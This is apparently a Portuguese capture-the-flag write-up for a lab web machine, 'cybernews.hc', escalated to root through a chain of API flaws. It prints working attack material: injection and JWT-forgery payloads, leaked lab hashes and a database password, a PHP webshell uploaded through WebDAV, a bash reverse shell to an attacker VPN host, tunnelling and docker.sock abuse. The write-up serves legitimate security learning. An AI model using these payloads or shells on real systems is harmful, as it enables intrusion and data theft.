Máquina web onde nenhum bug isolado entrega o acesso — cada falha é só mais uma porta na cadeia. O caminho até root passa por type juggling barrado no login pelo Joi, mass assignment (isAdmin) com BOPLA, excessive data exposure vazando hashes via downgrade de v2 para v1 da API, crack de bcrypt no hashcat, BOLA na troca de senha do admin, exploração da config do nginx para upload WebDAV virando webshell, pivoting com ligolo-ng pela rede interna e, no fim, abuso do docker.sock via appmon para escalar até root.

---

## Fase 0 — Recon inicial

### Portas e serviços

```bash
sudo nmap -sV -vvv -Pn -sC 172.16.15.166 -o nmap-output.txt
```

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 79:24:47:12:f3:ce:84:e8:1a:59:62:cc:26:ff:2c:2a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGXpApGevksCU6O09MgPnshCHaweegUsVAB3t4a5H0O/VNzMB0B60SZm2dQ+Nyw9KgcPV8odFic0GK2OPGu3tcM=
|   256 99:cf:37:59:ca:80:c1:1c:c0:4b:c9:6f:1b:2f:85:21 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBFUB2jpl6FT6WGwrOZ3UqRG+aMfZfI8U+iB/FkFZSLd
80/tcp open  http    syn-ack ttl 62 nginx 1.27.1
|_http-title: Did not follow redirect to http://cybernews.hc/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.27.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Passo fundamental para mapear a superfície de ataque. As flags:

- `-sV` mostra a versão dos serviços
- `-vvv` modo verboso
- `-Pn` não faz ping no alvo — evita que o nmap desista dos serviços por não receber ICMP reply
- `-sC` roda os scripts defaults do nmap a fim de enumerar mais profundamente o alvo caso encontre alguma porta aberta

Duas coisas saltam: duas portas abertas, sendo a ssh e http. Para acessar a página http://cybernews.hc/ e ver o conteúdo web, precisa-se adicionar o IP para a tabela de resolução de nomes. Que será o próximo passo.

### Adicionando o IP à tabela de resolução de nomes

Digitamos o comando abaixo para entrar na tabela de resolução de nomes:
```bash
sudo vim /etc/hosts
```

Após entrar no arquivo, adiciona-se o IP e o nome que será atribuído a este IP. O nmap já revelou o alvo do redirect (cybernews.hc) no http-title, sendo assim, eu adiciono esse nome no /etc/hosts apontando pro IP.


### Fingerprinting web

```bash
whatweb http://cybernews.hc

http://cybernews.hc [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.27.1], IP[172.16.15.166], Script[application/json,module], nginx[1.27.1]
```
```bash
curl -sI http://cybernews.hc

  HTTP/1.1 200 OK
  Server: nginx/1.27.1
  Date: Sat, 25 Jul 2026 15:26:58 GMT
  Content-Type: text/html
  Content-Length: 23767
  Last-Modified: Fri, 23 Aug 2024 02:40:56 GMT
  Connection: keep-alive
  ETag: "66c7f6b8-5cd7"
  Accept-Ranges: bytes
```

Após utilizar o whatweb e fazer um curl buscando pelas informações do site, percebe-se que se trata de um webserver nginx na versão 1.27.1. Informação valiosa que pode ser útil futuramente.

### Navegando no site

Observando a página principal, percebe-se que se trata de um blog com cards com 'Lorem Ipsum', uma espécie de texto padrão feito apenas para exemplificar onde teria um conteúdo escrito, e botões num menu principal. Nada de interessante até então, apenas um botão **login**. Ao acessar este, a página é redirecionada para a URL http://cybernews.hc/login contendo o conteúdo listado abaixo:



Ao clicar em 'register here' (registrar aqui), somos redirecionados para outra URL, dessa vez http://cybernews.hc/register. Que possui os campos mostrados na imagem abaixo:



### Fuzzing de diretórios

Enquanto vou analisando o código fonte das três páginas, coloco o utilitário **ffuf** para procurar por mais diretórios e arquivos de backup com o comando abaixo.

```bash
ffuf -u http://cybernews.hc/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt -e .bak,.old,.swp,.tmp,.orig
```

Prontamente ele já encontra os dois diretórios que observamos no site (login e register) e, fora estes dois, encontra um diretório chamado **/api**. Colocando este no navegador, observa-se a seguinte página:


Enquanto continuo analisando o código fonte das três páginas, decido enumerar o endpoint da api utilizando o ffuf também.

```bash
ffuf -u http://cybernews.hc/api/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/api/api-endpoints.txt -mc all -fc 404
```

Entretanto, nada é encontrado. Chego à conclusão de que o diretório da api provavelmente deve conter um nome muito específico. Nessa etapa da análise, já li o código fonte das páginas e, adiante, volto ao fluxo registrar/logar do sistema.


### Análise de código fonte

Antes de averiguar o fluxo de registrar/logar. Analisando o código fonte das páginas, foi possível identificar algumas tecnologias e suas versões como: 
- tailwindcss v3.4.10
- Nuxt 3.12.4
- Vue-router 4.4.3

---

## Fase 1 — Entender o fluxo Registrar/Login

### Etapa 1 - Registrar o novo usuário

Ao entrar no diretório /register, observa-se que existem 4 campos:
- name
- last name
- email
- password

Sendo assim, eu preencho estes dados com qualquer valor fictício. Porém, antes de enviar, eu abro o Burp Suite e intercepto a requisição enviada ao servidor com os dados que eu coloquei.



- Nota-se o path que o server faz a request '/api/auth/register'
- Confirma-se a versão do nginx 
- A troca de comunicação está sendo feita através de um json.

OBS: Dados em verde à esquerda (Request) juntamente com os headers em azul e seus respectivos valores em preto. O mesmo se aplica para os valores à direita (Response).

### Etapa 2 - Logar com o novo usuário

Para logar no site, apenas insiro os valores de email e senha que foram registrados anteriormente, dentro dos campos: "name" e "password". Porém, mais uma vez eu intercepto a requisição para entender melhor o comportamento do servidor.



- O server sempre responde com um token de sessão do tipo **Bearer** diferente a cada login bem-sucedido. Percebe-se que se trata de um servidor rodando um express, pelo header de resposta: 'X-Powered-By: Express' que não foi desativado através do comando `app.disable('x-powered-by')`. 

### Etapa 3 - Logar com o usuário errado

O site responde com um código 401 - Não autorizado


### Etapa 4 - Logar com a senha errada

O site responde com um código 401 - Não autorizado **da mesma forma**



- Contextualizando, as duas últimas etapas foram realizadas a fim de checar se o sistema responde de forma diferente para cada tipo de valor errado. Caso respondesse, poderíamos enumerar usuários, por exemplo.

---

## Fase 2 - Ataque inicial

Antes de mexer com o cookie, retorno para a página de login e executo alguns testes. Dessa forma, verifica-se a existência de alguma vulnerabilidade básica no sistema de login que me permita logar como admin.


### Etapa 1 - Procurar por SQLi no login - *A03:2021 – Injection*



Faço checagens rápidas sobre possíveis SQLinjections na página de login, com alguns payloads diferentes, e já constato que existe um tratamento para o tipo de email que está sendo colocado como input. Dessa forma, pulo para os próximos testes.


### Etapa 2 - Atacar utilizando NoSQLi - *A03:2021 – Injection*

Na etapa 2, deve-se colocar operadores MongoDB como ($gt, $gte, $ne) direto no login e password. Dessa forma, para tentar bypassar a autenticação sem credencial válida. O servidor, porém, aplica um filtro de tipo que exige string nos campos, rejeitando o objeto antes de chegar na query — fechando essa via.

Exemplo de como ficaria a payload:

```json
  {
  "email":{"$ne":null},
  "password":{"$ne":null}
  }
```

É possível notar através do valor de retorno do backend, que este está *tratando* o tipo do valor enviado no email, uma vez que a resposta para os testes apresentados sempre é:
```json
  {"error":"\"email\" must be a string"}
```
Pesquisando sobre a mensagem de erro, descobri que se trata do Joi (uma biblioteca de gerenciamento de schema do Node), confirmando nodejs no backend.

### Etapa 3 - Atacar utilizando Type Juggling - *A03:2021 – Injection*

Para realizar este ataque, deve-se alterar o tipo da variável que é enviada ao backend. Caso a proteção de tipo não tivesse sido implementada, seria possível mudar o valor de uma string para booleano, por exemplo. Alterando a lógica da query e executando com sucesso a requisição.
```json
  {"email":"trishul@mail.com","password":true}     // booleano
  {"email":"trishul@mail.com","password":[]}        // array vazio
  {"email":"trishul@mail.com","password":null}      // null
  {"email":"trishul@mail.com","password":{}}        // objeto
  {"email":"trishul@mail.com","password":123}       // número
```
```json
  {"error":"\"password\" must be a string"}
```
Como esperado, está tratando os dois campos, tanto o email quanto a senha.

### Etapa 4 - Atacar utilizando Mass Assignment - *API3:2023 (Broken Object Property Level Authorization)*

Essa vuln consiste em quebrar a autorização da criação de um objeto no banco de dados que possui um atributo existente no schema/model, entretanto, não existente para o usuário comum atribuí-lo em sua criação. Identifiquei o nome do campo de privilégio (admin) inspecionando meu próprio token, e testei escrevê-lo no register `/api/auth/register`.



Como imaginado, este token possui o valor `admin`. Sendo assim, vamos criar um novo usuário contendo esse valor setado como `true`.



Observa-se que a mensagem recebida pelo servidor (Response) foi:
```json
  {"message":"success"}
```
O próximo passo é tentar entrar na conta admin recém-criada; entrando na conta verificamos que nenhuma opção muda, e ao conferir o token JWT retornado ao fazer login: continuamos como um usuário comum, com a flag `admin: false`...



Tentei algumas formas diferentes de inserir o valor true no json enviado no /api/auth/register na esperança de que a proteção de tipo só tivesse sido implementada no login, mas é notório que os valores enviados estão sendo sobrescritos pela lógica da aplicação. Alguns exemplos são:

```json
{
  {"admin":"true"}
  {"admin":[true]}
  {"admin":1}
}
```
Todos os exemplos acima, foram enviados com os headers e elementos do json anteriormente apresentados durante a criação de um usuário. Resultando na criação de novas contas mas nenhuma com admin habilitado.

### Etapa 5 - Forja de JWT - API2:2023 (Broken Authentication)

Um token JWT é composto de 3 partes, sendo elas o `header`, contendo informações sobre o tipo do token e seu algoritmo de criptografia. O `payload` com informações referentes ao dono do token e `signature` com a assinatura criptográfica do token. Veja um exemplo na imagem abaixo:



A parte inicial dessa etapa é parecida com a etapa 3, seguindo os seguintes passos:
- logar com uma conta válida
- pegar o token de sessão

Agora para realizar o decode do base64 (codificação do token), utiliza-se o site cyberchef escolhendo a opção (From Base64).
```json
{"alg":"HS512","typ":"JWT"}{"id":12,"name":"trishul","email":"admin6@trishul.com","admin":false,"iat":1785015616}
```
- alterar o valor do admin para **true**
- alterar o alg para **none, None, NONE**...
```json
{"alg":"none","typ":"JWT"} //Header
{"id":12,"name":"trishul","email":"admin6@trishul.com","admin":true,"iat":1785015616} // Payload
```
- decodificar separadamente o header do token jwt
```json
  eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0 # Header
  eyJpZCI6MTIsIm5hbWUiOiJ0cmlzaHVsIiwiZW1haWwiOiJhZG1pbjZAdHJpc2h1bC5jb20iLCJhZG1pbiI6ZmFsc2UsImlhdCI6MTc4NTAxMTk0MH0 # Payload
```
Ambos valores devem ser separados por ponto (Header[.]Payload[.]) sem a última coluna (assinatura) e inseridos novamente no cookie de sessão do navegador para tentar forjar o JWT.

- Ficando da seguinte maneira:
```json
  eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0[.]eyJpZCI6MTIsIm5hbWUiOiJ0cmlzaHVsIiwiZW1haWwiOiJhZG1pbjZAdHJpc2h1bC5jb20iLCJhZG1pbiI6ZmFsc2UsImlhdCI6MTc4NTAxMTk0MH0[.] 
```
  OBS: Sem os colchetes

Agora eu noto uma questão importante, mesmo logado eu não consigo acessar nenhuma rota presente no site para alterar o authorization header com o JWT que eu forjei.
Retorno à etapa de Recon e procuro por algum subdiretório com a /api.

---

## Fase 3 - Revisar recon

### Enumerando /api com o ffuf

Eu havia utilizado duas wordlists da SecLists que não haviam achado nenhum subdiretório. Mas procurando pela internet achei esta a wordlist (httparchive_apiroutes_2026_02_27.txt) que me retornou estes resultados:

```bash
ffuf -u http://cybernews.hcFUZZ -w /usr/share/wordlists/apiroutes.txt

  /api/articles           [Status: 200, Size: 3561, Words: 225, Lines: 1, Duration: 131ms]
  /api/configs            [Status: 401, Size: 12, Words: 1, Lines: 1, Duration: 126ms]
  /api/auth/profile       [Status: 401, Size: 12, Words: 1, Lines: 1, Duration: 128ms]
```

### Navegando no site
Entrando no http://cybernews.hc/api/articles, um json é retornado contendo informações referentes ao admin e outros dois usuários. As informações leakadas do admin são:

- id: 1
- email: "admin@pog.local"
- name:	"admin"
- lastName:	"N/a"
- password:	"$2b$10$SzzRctNxR34bLoJ0VsPOou5x.iPzGn6RM29N.pqdwjqDPtSj0qkj6" 
- isAdmin:	true


Dos outros usuários que não são admins:

john.smith@example.com:$2b$10$hdWa.DHifJAQYZVthRS0huKIXR5pOoOhbiTJSLUmnB9cVZ9rcYOm.
sarah.taylor@example.com:$2b$10$rkRRPqKAOB1oq.NN59gtl.711f2lnMw072lioDa8IWlRYpcJY.iii
david.wilson@example.com:$2b$10$qMjZHffWd0rUEUkW3a0lRuuOpNVVU87c12/hMjh6u9ES/8d1gUzga

Observa-se que o /api/articles vazando hash de senha é Excessive Data Exposure. Mesmo o BOPLA não permitindo criar um novo user contendo um parâmetro não listado no frontend, o API3:2023 vaza a leitura de um campo que não deveria sair do backend.

---

## Fase 4 - Atacando novamente o sistema

Novamente na etapa de ataque ao sistema, dessa vez tenho informações valiosas que anteriormente eram ocultas.

### Etapa 1 - brutar a senha do admin

Sabe-se que o hash referente à senha é um b-crypt, com isso, enquanto procuro por mais vetores de ataque, deixo o hashcat agindo em segundo plano. O comando utilizado para tentar quebrar o hash foi:

```bash
hashcat -a 0 -m 3200 admin.hash /usr/share/wordlists/rockyou.txt
```
- a: attack-mode -> modo de execução do hashcat
- m: hash-type -> qual tipo de hash será quebrado pelo hashcat

Após alguns minutos, constatei que provavelmente o próximo passo não envolvia a quebra do hash por brute force, porque estava demorando demais para um simples CTF.
Com isso, decidi revisar as técnicas que havia realizado anteriormente.

### Etapa 2 - Revisão de ataque até o momento
- Tentei outros payloads de SQLi que não funcionaram
- Eu já sabia que NoSQLi e TypeJuggling não funcionariam de nenhum jeito, porque o servidor estava barrando qualquer tipo de input que não fosse string
- Foi aí que eu notei um detalhe, no mass assignment eu tentei realizar:
    - admin: "true"
    - admin: true
    - admin: [true]
    - admin: 1
    - role: admin
- Mas comparando com os dados do path /api/articles, percebe-se que este campo está setado como `isAdmin`. Sendo assim, decido criar um novo usuário, e enviar no json o atributo `isAdmin` setado como true.

Abaixo é possível ver que o usuário foi criado, como sempre acontecia. Então sem expectativas por enquanto.



Agora eu realizo o login para pegar o token JWT e verificar se funcionou ou não.



Atualizando o header Authorization e realizando a requisição GET para /api/auth/profile é possível ver que, **finalmente**, consigo criar uma conta admin. 



### Etapa 3 - Checando diferença de ter usuário com privilégio elevado.

Aparentemente na página principal não há nenhuma funcionalidade diferente para o usuário com privilégio de admin. Mas lembrando dos subdiretórios anteriormente enumerados, existe um chamado /api/configs. 

Ao entrar no navegador este diretório responde como não autorizado, porém ao colocar o Authorization header do recém-criado usuário 'admin7@trishul.com' no Burp Suite, realizamos uma requisição do tipo GET para /api/configs que retorna a seguinte configuração do servidor:

```json
{
  "database":{
    "dialect":"mysql",
    "host":"mysql",
    "port":"3306",
    "database":"blog",
    "username":"root",
    "password":"6Vx6itR2MIOPTbju2sB"
  },
  "backoffice":{
    "url":"production-backoffice-kmxy.cybernews.hc",
    "port":80
    }
}

```

Outro ponto é o host do mysql ser 'mysql', o que demonstra que o serviço possivelmente é rodado dentro de um container. Impossibilitando a conexão com minha máquina externa, então o candidato real é o backoffice.

Tentei reusar a credencial no SSH como www-data, mas www-data é conta de serviço (nologin) — o reuso da credencial só faz sentido contra um alvo que aceite login.

Além disso, o vazamento do config provou que a stack era MySQL/Sequelize o tempo todo, o que fecha a questão de por que NoSQLi nunca ia pegar...

---

## Fase 5 - Entendendo o subdomínio de backoffice

### Etapa 1 - Reconhecimento inicial do subdomínio

Adicionei o subdomínio à tabela de resolução de nomes, como mostrado no começo deste writeup. Para procurar por mais vetores de ataque.



Enquanto eu olhava o código fonte, coloquei o ffuf para escanear por diretórios e rotas de api

```bash
ffuf -u http://production-backoffice-kmxy.cybernews.hc/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories-lowercase.txt -e .bak,.old,.swp,.tmp,.orig,.txt,.js


images                  [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 131ms]
login                   [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 136ms]
logout                  [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 130ms]
api                     [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 130ms]
users                   [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 130ms]
profile                 [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 131ms]
settings                [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 129ms]
robots.txt              [Status: 200, Size: 1, Words: 1, Lines: 2, Duration: 129ms]
```

```bash
ffuf -u http://production-backoffice-kmxy.cybernews.hcFUZZ -w /usr/share/wordlists/apiroutes.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://production-backoffice-kmxy.cybernews.hcFUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/apiroutes.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 1220, Words: 45, Lines: 12, Duration: 133ms]
/api/auth/profile       [Status: 401, Size: 12, Words: 1, Lines: 1, Duration: 133ms]
/api/auth/profile/      [Status: 401, Size: 12, Words: 1, Lines: 1, Duration: 132ms]

```

Ao acessar o path robots.txt, nada aparecia, além disso, todos os outros diretórios deram 301 (Moved Permanently) e as rotas de api só identificaram / e /api/auth/profile. As quais eu não consegui extrair nenhuma informação.

### Etapa 2 - Análise de código do subdomínio (sem login)

Através da análise das requisições feitas pela página web, consegui chegar no código fonte do frontend. O qual me confirmou as rotas presentes na aplicação, lógicas de login, e leakar algumas apis utilizadas pelo frontend.

Através dessa requisição listada em azul, foi encontrada a página de rotas da aplicação contendo o que eu já havia achado com o ffuf + a rota /users-management.



Aqui eu consegui listar todas as rotas visíveis pelo frontend.



Após pesquisar na internet sobre o comportamento das aplicações em Vue e Nuxt, descobri que ao acessar cada uma das rotas, é carregado as informações referentes à página no meu navegador. Isso é chamado de code splitting / lazy loading que é uma forma de otimizar o carregamento das páginas web. 

Sendo assim, decidi carregar a página users-management para entender o comportamento dela e achei essa '/api/v2/bo/users' no fetch_users.js, arquivo que era usado no users-management.vue...



Além dessa API, consegui encontrar outros paths que podem ser visualizados abaixo: 

```bash
  /api/v2/bo/users
  /api/auth/profile'
  /api/auth/login
  /api/v2/bo/proxy-config/update
  /api/v2/bo/proxy-config
  /api/v2/bo/proxy-config/commit
  /api/v2/blog/users
```

Mais abaixo eu explico o fluxo de login:
 
A aplicação pega do localStorage o token para mandar no authorization header fazendo um GET para /api/auth/profile neste código abaixo:

```bash
  export async function fetch_profile() {
      const token = localStorage.getItem("token");
      try {
          const headers = {
              'Authorization': Bearer ${token}
          };
          const request = await fetch('/api/auth/profile', {
              method: 'GET',
              headers
          });
          return await request.json();
      } catch(e) {
          console.error(e);
          return false;
      }
  }
```

Agora neste código, a aplicação já termina se não tem o token, e caso tenha, ele seta o valor no localStorage como profile contendo as informações que foram inputadas da função fetch_profile, como: name, email, roles... 

```bash
import { fetch_profile } from "../bo/fetch_profile";
export async function verifyAuth(role = 'manager') {
    const token = localStorage.getItem("token");
    if(!token) {
        return false;
    }
    try {
        const profile = await fetch_profile()
        if(!profile || !profile.roles.includes(role)) {
            return false;
        }
        localStorage.setItem("profile", JSON.stringify(profile));
        return true;
    } catch(e) {
        console.error(e);
        return false;
    }
}

```

Após quebrar muito a cabeça com as APIs e tentando bypassar esse login através de mass assignment novamente, com a intenção de que o banco de dados poderia ser compartilhado e a 'role' ser definida na criação do user. Descobri que realizar uma alteração na api de '/api/**v2**/bo/users' para /api/**v1**/bo/users eu consigo leakar dois usuários presentes na aplicação. E a falha de Excessive Data Exposure se mantém com o banco retornando a senha dos usuários. (Como no /api/articles apresentado no começo do writeup).

```bash
{
  "id":1,
  "name":"admin",
  "lastName":"N/a",
  "email":"admin@bo.cybernews.hc",
  "password":"$2b$10$c6qAx3Oo/YL0MlnoIeKY9uuSimbp6mWjE/grBCl6XYB.zXfPh6vi2","roles":"manager,admin"
  },
  {
    "id":2,
    "name":"manager",
    "lastName":"N/a",
    "email":"manager@bo.cybernews.hc",
    "password":"$2b$10$J5A32S29JTx8Z9m.8xGpjOA44gNzOtIzF8nALKe/3aOKfx50X9YtG",
    "roles":"manager"
    }
```

### Etapa 3 - Análise de código do subdomínio (com login)

Primeiro, tentei colocar a senha do banco de dados com o email do manager para tentar logar no backoffice e não consegui. Segundo, eu tentei quebrar a senha (que possui a criptografia b-crypt) com a wordlists rockyou. Felizmente o segundo passo deu certo, e eu consegui a senha que me deu acesso ao sistema :)

Senha quebrada:
```bash
  $2b$10$J5A32S29JTx8Z9m.8xGpjOA44gNzOtIzF8nALKe/3aOKfx50X9YtG:alexis
```
Entrando na conta **manager**, o dashboard principal só emite uma mensagem falando que o time de desenvolvimento está implementando novas features, e existe outra aba que lista todos os usuários já criados com suas respectivas informações.



---

## Fase 6 - Escalação de privilégio Backoffice

### Etapa 1 - Revisando APIs
Essa aba é formada com o path /api/v2/blog/users juntando todo o conhecimento das apis até então:

- app principal (/api/... e /api/v2/blog/...)
  - privilégio via isAdmin booleano
  - emails @trishul.com/@pog.local
- backoffice (/api/v2/bo/...)
  - privilégio via roles(manager e admin)
  - emails @bo.cybernews.hc

Navegando na página do profile do usuário, é possível ver que existe uma opção para mudar de senha. Como mostra na foto abaixo:



Decido então, interceptar no Burp essa request de mudança de senha para entender melhor o comportamento da requisição. Percebo que é inserido no path (/api/v1/bo/users/**2**) da requisição o ID do usuário que será atualizado, sendo assim mudo para **1** (id do admin) e de antemão, a vulnerabilidade chamada BOLA (Broken Object Level Authorization) não funciona. Repito o que eu havia feito anteriormente, alterando a versão da API de v2 para v1 e, com isso, consigo alterar a senha do admin com sucesso.   



Ao entrar no site como administrador, é liberado uma aba chamada settings que possui as configurações do nginx. E navegando entre as configurações, é possível ver outro subdomínio chamado: intranet-kizb.cybernews.hc que possui interpretação de arquivos .php



Sendo assim, mudo a configuração do nginx para 0.0.0.0 e retiro o deny all, permitindo, assim, o acesso ao subdomínio. Ao entrar no site, me deparo apenas com uma mensagem 'under development' com nada útil. 



### Etapa 2 - Configurando nginx

Fazendo um fuzzing de diretórios no novo subdomínio, encontro o diretório chamado /uploads e acessando ele, recebo o código 403 (Forbidden).

Com isso, comecei a pesquisar sobre a possibilidade de configurações no nginx que podem me permitir o upload de arquivos. Eu insiro a configuração de upload via HTTP PUT com WebDav com o comando abaixo. O qual realiza respectivamente: 
- cria o subdomínio novo que escuta na porta 80
- seleciona o filesystem inteiro
- permite a captura do .php com o regex
- arquivo cai dentro do intranet com o alias
- enquanto o upload está em transmissão ele vai alocando os arquivos no temp/upl/tmp
- habilita o webdav através do dav_methods
- cria o diretório se não existir
- configura os acessos ao webdav criado

```bash
  server {
      listen 80; 
      server_name upload.cybernews.hc; 
      root /; 
      location ~ "/upl/([0-9a-zA-Z-.]*)$" 
      {
          alias /usr/share/nginx/intranet/uploads/$1; 
          client_body_temp_path /tmp/upl_tmp; 
          dav_methods PUT DELETE MKCOL COPY MOVE; 
          create_full_put_path on; 
          dav_access group:rw all:r; 
      }
  }
```

### Etapa 3 - Upando webshell

Adiciono o novo vhost no /etc/hosts e mando um curl upando um arquivo contendo uma webshell para o diretório upl com o comando abaixo:

```bash
  curl -X PUT http://upload.cybernews.hc/upl/shell.php   -d '<?php system($_GET["cmd"]); ?>'
```

Para conferir se o comando está sendo interpretado pelo intranet, eu realizo um curl inserindo um comando simples como 'id':

```bash
  curl "http://intranet-kizb.cybernews.hc/uploads/shell.php?cmd=id"
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Para minha felicidade, deu tudo certo. O próximo passo é realizar uma reverse shell para eu me conectar remotamente ao servidor da intranet.

### Etapa 4 - Conectando à Reverse Shell

Para isso, preciso deixar uma conexão com o nc ouvindo numa porta do meu computador, e pedir para o servidor se conectar a esta porta através da webshell.

Como estou enviando a payload da reverse shell por uma url, preciso realizar um url encode. Abaixo nota-se como é formada a payload sem/com encode.

```bash
/bin/bash -c 'sh -i >& /dev/tcp/[IP-VPN]/1234 0>&1' #sem encode

%2Fbin%2Fbash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F[IP-VPN]%2F1234%200%3E%261%27 #com url encode
```

Ao realizar um curl com a url encodada, 
```bash
curl "http://intranet-kizb.cybernews.hc/uploads/shell.php?cmd=%2Fbin%2Fbash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F[IP-VPN]%2F1234%200%3E%261%27"
```
consigo acesso ao servidor. Entrando na raiz do sistema (/) consigo achar a primeira flag user.



### Etapa 5 - Enumerando a máquina alvo

Primeiramente eu enumero a máquina para buscar por vulns



Procurei também por arquivos que pudessem me ajudar a escalar privilégio dentro deste container, usando principalmente find, entretanto, não obtive nenhum resultado útil.

Então, lembrando que estou em um container, eu transfiro o utilitário do nmap da minha máquina atacante para a máquina alvo, com o intuito de escanear por mais redes dentro da rede interna.

OBS: A transferência foi realizada subindo um webserver http usando python na máquina atacante, e fazendo um curl na máquina alvo com o IP da minha VPN.

Abaixo, seguem os hosts encontrados pelo meu ping sweep, na rede interna. Primeiro eu localizo meu IP com o (hostname -I) e depois eu realizo o ping sweep com o comando (-sn: Ping Scan - desabilita port scan).



Dois IPs me chamaram atenção: o mysql que pode-se entrar com as credenciais anteriormente obtidas no path /configs; e o appmon sendo um IP com um programa ainda não visto anteriormente nesse writeup.

Tentei realizar um portscan para entender em qual porta esses serviços estão rodando dentro do IP indicado no ping sweep, mas obtive um problema por não possuir o nmap-services no container. Após uma breve pesquisa, percebi que bastaria copiar esse arquivo da minha máquina atacante para a máquina alvo e realizar o scan normalmente.



Após a transferência, segue abaixo o scan dos IPs anteriormente descobertos:

- 172.18.0.4



- 172.18.0.7 



### Etapa 6 - Tunelamento com Ligolo-ng

Sabendo que esses serviços rodam em outro host do container, decidi usar o ligolo-ng para realizar um tunelamento entre minha máquina e a máquina alvo. Para isso, precisei baixar dois binários, um agent e um proxy do github do ligolo e rodar os seguintes comandos na minha máquina atacante/alvo respectivamente.


#### Máquina atacante

##### Montar a interface TUN no atacante
```bash
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```
- Isso cria a interface que será utilizada como comunicação entre agent e proxy

##### Subir o proxy no atacante
```bash
sudo ./proxy -selfcert -laddr 0.0.0.0:11601
```
- subo o server na máquina atacante na porta default 11601
- selfcert gera um certificado TLS na hora

#### Máquina alvo

##### Transfiro o agent para o alvo no /tmp
```bash
curl http://[IP-VPN]:[PORTA-VPN]/agent -O
```
- -O faz o nome do binário ser o mesmo nome quando baixado o arquivo na máquina alvo

##### Listo a faixa de subnet

Como o alvo não possui o comando ip, vejo com o comando abaixo a faixa de subnet do container alvo.

```bash
cat /proc/net/fib_trie
```
Confirmo que a faixa de IP da subnet é 172.18.0.0/16

##### Subo o agent na máquina alvo
```bash
./agent -connect [IP-VPN]:11601 -ignore-cert
```
#### Máquina atacante

##### Console do ligolo
```bash
session
```
##### Após confirmar a session, iniciar o túnel com o comando abaixo
```bash
start
```
##### Adicionar a faixa de endereçamento da subnet na tabela de roteamento da máquina atacante
```bash
sudo ip route add 172.18.0.0/16 dev ligolo
```
- Esse comando faz com que todo o range de IPs de 172.18.0.0 até 172.18.255.255 sai pelo túnel e bate na máquina alvo.

Agora preciso adicionar os IPs com os serviços previamente scaneados com o nmap no /etc/hosts na minha máquina atacante para acessá-los na web normalmente.

### Etapa 7 - Pesquisa no Mysql

Conferi o serviço de mysql procurando por alguma hint para o próximo passo da elevação de privilégio, mas os bancos de dados só continha informações previamente vistas neste writeup, então, nada de útil no momento. Comando para se conectar está abaixo:

```bash
mysql -h 172.18.0.5 -u root -p'6Vx6itR2MIOPTbju2sB'
```

### Etapa 8 - Pesquisa no appmon 

Acessando o appmon no navegador, me deparo com uma tela de login. Mostrada na imagem abaixo:



Interceptando a request feita com nomes fictícios, foi possível achar a rota da api sendo `api/auth/login`. Ao mudar para `api/auth/register` o webserver pede um username e ao inseri-lo no json, cria-se a conta. Mais detalhes podem ser vistos abaixo.



No Dashboard principal o sistema exibe informações sobre a usabilidade do sistema e o que está rodando, começado/parado. Apenas a página de webhooks funciona. Então é o único caminho lógico.



Abaixo segue uma imagem da página de webhooks.



Eu configuro um webhook no meu localhost para entender o comportamento da aplicação.



Como pode ser visto, ao acessar o link disponibilizado pelo appmon, sou redirecionado para uma página que exige um token de acesso. Sabendo disso, decido interceptar a requisição com o burp para facilitar o manuseio entre requests com o repeater.

Usando o Repeater e adicionando o header `Authorization` juntamente com o token, consigo ver que exibe uma mensagem de erro, através dessa mensagem, é possível identificar um axios rodando.



Buscando algumas referências na internet identifiquei que através do `docker.sock` é possível enumerar as imagens disponíveis do docker com o intuito de clonar uma imagem e executar comandos na execução desta. A url utilizada para realizar a request da lista de imagens pode ser visualizada abaixo.



Agora para trigar a lista, é necessário fazer uma requisição `GET` com o id do `data` gerado pela última request.



Sabendo o nome da imagem, eu crio um novo container com esta, inserindo as informações mostradas na imagem abaixo:



*OBS*: note que no campo cmd eu insiro os valores referentes à minha interface nc que está escutando na máquina atacante.

Novamente, preciso pegar o id do data para triggar a criação que eu realizei. Então, eu mando a request GET contendo o id anteriormente obtido.



Agora só preciso startar a imagem, e trigar o start para conseguir escalar privilégio.





## Fecho

Com acesso root ao servidor, consigo obter a root flag ;)



## Pontos importantes do lab
- Sempre fazer code review se identificar debugger mode ativo leakando informacoes do codigo
